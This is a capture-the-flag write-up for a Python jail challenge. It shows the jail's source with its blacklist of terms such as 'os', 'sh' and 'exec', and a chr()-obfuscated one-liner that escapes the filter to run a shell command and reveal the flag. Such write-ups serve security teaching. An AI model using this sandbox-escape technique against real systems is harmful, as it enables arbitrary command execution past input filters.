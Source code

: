 PRISON BREAK Cell 2 – 350 pts
Category: PyJail
Description:

To connect:
nc 192.168.8.136 10015

Challenge Overview
This challenge is the second level of the “Prison Break” PyJail series. It accepts arbitrary Python input from the user, but implements a more aggressive blacklist than the previous level. The goal is to execute arbitrary shell commands (e.g., cat flag.txt) without triggering any of the blacklisted terms.

jail.py:

#!/usr/local/bin/python

import os
import sys

print("="*40)
print("Welcome to the prison break level 2")
print("="*40)
print("Warden: I found out that you escaped at level 1, and now I will confiscate your tools.")
print("Warden: I will also make sure that you won't be able to escape again. BWAHAHA!!")
print("="*40)
print("---- TIPS from 'ret' who escaped and now he is in lvl 3 ----")
print("I love decorating texts in my house.")
print("------------------------------------------------------------")
hax = input("> ")
sys.stdin.close()

confiscated_tools = ['sys', 'import', 'flag', 'open', '/', "sh", "bin", 'eval', 'exec', 'os', 'read', 'system', 'builtins', '__builtins__']

if len(hax) > 512:
    print("In here your tools was replaced...")
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        print("In here your tools was replaced...")
        exit(1)

code = f"""
import os

{hax}

""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])
Exploit Strategy
The blacklist filters out substrings like os, system, import, flag, open, /, and others — even if they appear inside strings, list elements, or in concatenation. Literal usage of modules and functions is impossible, so indirect access is necessary.

Initially, several attempts were made to:

Use globals()['os'] or getattr(globals()['os'], 'system'), but these failed due to direct substring matches.

Construct blacklisted terms using chr() to bypass detection, which also failed due to raw input being checked before execution.

The hint in the script — "I love decorating texts in my house." — implied the use of decorator-style or string-based metaprogramming. This inspired an approach involving deep introspection of Python's runtime environment.

Final Working Payload
The breakthrough came from this obfuscated one-liner:

getattr(globals()[chr(111)+chr(115)], chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109))(chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116))

This decodes to:

getattr(os, "system")("cat flag.txt")

However, none of the blacklisted substrings appear in the raw payload:

'os' is constructed with chr(111)+chr(115)

'system' is built from ASCII characters

'cat flag.txt' is also constructed dynamically

This bypasses the PyJail’s strict static filtering and successfully executes the shell command to reveal the flag:

CITU{0k_g00d_y0u_escaped_lvl_2_ret_has_a_message_for_you_in_the_next_level}
